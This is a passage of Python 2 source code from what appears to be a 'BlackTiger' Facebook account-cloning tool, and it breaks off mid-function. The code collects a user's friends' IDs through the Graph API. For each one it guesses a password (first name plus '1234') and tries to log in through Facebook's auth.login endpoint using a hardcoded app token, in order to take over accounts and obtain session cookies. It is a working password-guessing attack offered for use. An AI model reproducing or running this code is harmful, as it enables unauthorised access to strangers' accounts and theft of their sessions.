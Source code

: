 def pilih_super():
	peak = raw_input("\n\033[1;91m^.^Choose an Option>>> \033[1;95m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;97m•◈•══════•◈•\033[1;91mBlackTiger\033[1;97m•◈•══════•◈•"
		jalan('\033[1;91mGetting IDs \033[1;91m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;95m[•◈•] \033[1;91mEnter ID\033[1;95m: \033[1;95m")
		print "\033[1;92m•◈•══════••◈•\033[1;91mBlackTiger\033[1;95m•◈•══════••◈•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;91mName\033[1;95m:\033[1;95m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
			super()
		print"\033[1;91mGetting IDs\033[1;97m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;36;40m[✺] Total IDs : \033[1;94m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m        ❈     \x1b[1;91mTo Stop Process Press CTRL+Z \033[1;94m    ❈"
	print "   \033[1;92m●══════════════════◄►══════════════════●"

	jalan('           \033[1;91mAro start cloning Wait...')
	print  "  \033[1;92m ●══════════════════◄►══════════════════●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:rana
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q: